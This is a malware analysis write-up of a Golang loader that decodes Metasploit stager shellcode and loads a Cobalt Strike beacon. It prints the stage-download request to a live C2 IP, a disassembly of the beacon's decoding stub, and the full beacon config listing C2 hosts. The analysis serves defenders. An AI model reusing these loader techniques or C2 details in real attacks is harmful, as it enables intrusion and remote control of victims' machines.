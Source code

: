 # Sample

f8c94e76f4d756924bf929b32f85158bc81911ce4a606af67e37460405e0ad3f


# Characteristics
* Golang
* 64 bit Windows
* VT Detections 8/72

# Execution Overview

Sample immediately copies over a blob of data that will be single byte XOR decoded

```python
Python>a = 0x49a620
Python>for i in range(0x3a0):
Python>  t = Byte(a+i)
Python>  t ^= 0x5d
Python>  PatchByte(a+i, t)
```


The XOR decoded data is metasploit shellcode commonly used as a stager for loading meterpreter or cobaltstrike. 

Downloading next layer:

```
> GET /xn1F HTTP/1.1
> Host: 106.53.232.176
> User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/78.0.3904.108 Safari/537.36

```

Server uses a fake jquery cert

```
*  subject: C=US; ST=US; L=California; O=jQuery; OU=Certificate Authority; CN=jquery.com
*  issuer: C=US; ST=US; L=California; O=jQuery; OU=Certificate Authority; CN=jquery.com
*  SSL certificate verify result: self signed certificate (18), continuing anyway.

```

Downloaded file xn1F:
beb59218a17324f3ce10a4416a5d4a8f9a2ba649f0ba36d6d4f6de610bd2262d

This data will be directly executed, the bytes on top are a self decoding loop for decoding beacon which will then perform reflective loading to load itself.

```
# rasm2 -D -b 64 -k windows "fc48 83e4 f0eb 335d 8b45 0048 83c5 048b4d00 31c1 4883 c504 558b 5500 31c2 89550031 d048 83c5 0483 e904 31d2 39d1 7402ebe7 58fc 4883 e4f0 ffd0 e8c8 ffff ff16f363 5d16 0960 5d5b a922 0f0e e1ab ea46"
0x00000000   1                       fc  cld
0x00000001   4                 4883e4f0  and rsp, 0xfffffffffffffff0
0x00000005   2                     eb33  jmp 0x3a
0x00000007   1                       5d  pop rbp
0x00000008   3                   8b4500  mov eax, dword [rbp]
0x0000000b   4                 4883c504  add rbp, 4
0x0000000f   3                   8b4d00  mov ecx, dword [rbp]
0x00000012   2                     31c1  xor ecx, eax
0x00000014   4                 4883c504  add rbp, 4
0x00000018   1                       55  push rbp
0x00000019   3                   8b5500  mov edx, dword [rbp]
0x0000001c   2                     31c2  xor edx, eax
0x0000001e   3                   895500  mov dword [rbp], edx
0x00000021   2                     31d0  xor eax, edx
0x00000023   4                 4883c504  add rbp, 4
0x00000027   3                   83e904  sub ecx, 4
0x0000002a   2                     31d2  xor edx, edx
0x0000002c   2                     39d1  cmp ecx, edx
0x0000002e   2                     7402  je 0x32
0x00000030   2                     ebe7  jmp 0x19
0x00000032   1                       58  pop rax
0x00000033   1                       fc  cld
0x00000034   4                 4883e4f0  and rsp, 0xfffffffffffffff0
0x00000038   2                     ffd0  call rax
0x0000003a   5               e8c8ffffff  call 7
0x0000003f   1                       16  invalid

```

The decoding gets the address of the encoded data by performing a jump and call chain. This will push the address of the data after the call instruction onto the stack, next the dword value XOR key and XOR encoded size value is retrieved. Then the XOR decoding is done, the key ends up being XORd by the cleartext dword every iteration.

After decoding we can dump the CobaltStrike beacon config:


Beacon config:

```
{'PROXY_BEHAVIOR': '1', 'PROTOCOL': '8', 'SPAWNTO_X64': '%windir%\\sysnative\\rundll32.exe', 'SLEEPTIME': '10000', 'KillDate': '0', 'C2_VERB_GET': 'GET', 'ProcInject_Prepend_x64': '', 'ProcInject_StartRWX': '64', 'DNS_SLEEP': '0', 'ProcInject_Stub': '\xa5l\x818d\xaf\x87\x8aL\x10\x08<\xa1W\x8e\n', 'HostHeader': '', 'ProcInject_Prepend_x86': '', 'ProcInject_MinAllocSize': '0', 'ProcInject_UseRWX': '64', 'MAXGET': '1403644', 'USERAGENT': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/78.0.3904.108 Safari/537.36', 'PORT': '443', 'DNS_IDLE': '0', 'ProcInject_AllocationMethod': '0', 'UNKNOWN55': '30', 'UsesCookies': '1', 'C2_POSTREQ': "[('_HEADER', 0, 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8'), ('_HEADER', 0, 'Accept-Encoding: gzip, deflate'), ('BUILD', ('MASK',))]", 'WATERMARK': '305419896', 'textSectEnd': '0', 'PUBKEY': '30819f300d06092a864886f70d010101050003818d003081890281810095e0157049a3b398f64386cb92c60e6735ea9b6b2ad403259975212790cca0eb351285a9dfb4b8ecf2ed72226d408b64178050a8da5bef9563b2f53a905ab90f5e96ba008bdf4e171d3f2b4ca6b194da29218aa306962c4622a5ec421e569021c49bcee6b97706a6c5692489a0bd3d6ead5b22417711ba5ffdf74afe70b90c230203010001', 'SPAWNTO_X86': '%windir%\\syswow64\\rundll32.exe', 'C2_REQUEST': "[('_HEADER', 0, 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8'), ('_HEADER', 0, 'Accept-Encoding: gzip, deflate'), ('BUILD', ('BASE64URL',)), ('HEADER', 0, 'Cookie')]", 'CRYPTO_sCHEME': '0', 'ITTER': '30', 'C2_RECOVER': '\x04\x00\x00\x00\x01\x00\x00\x05\xf2\x00\x00\x00\x02\x00\x00\x00T\x00\x00\x00\x02\x00\x00\x0f[\x00\x00\x00\r\x00\x00\x00\x0f', 'C2_CHUNK_POST': '0', 'ProcInject_Execute': '\x01\x02\x03\x04', 'PIPENAME': '', 'C2_VERB_POST': 'POST', 'bStageCleanup': '0', 'SPAWNTO': '', 'SUBMITURI': '/jquery-3.3.2.min.js', 'DOMAINS': '106.53.232.176,/jquery-3.3.1.min.js,121.196.25.148,/jquery-3.3.1.min.js,47.96.82.40,/jquery-3.3.1.min.js,49.234.9.94,/jquery-3.3.1.min.js,106.52.51.225,/jquery-3.3.1.min.js', 'bCFGCaution': '0', 'MAXDNS': '255'}

```



Watermark is related to the leaked version of CobaltStrike which would make me believe this not a red team, if it is they need to fix their use of stolen software.





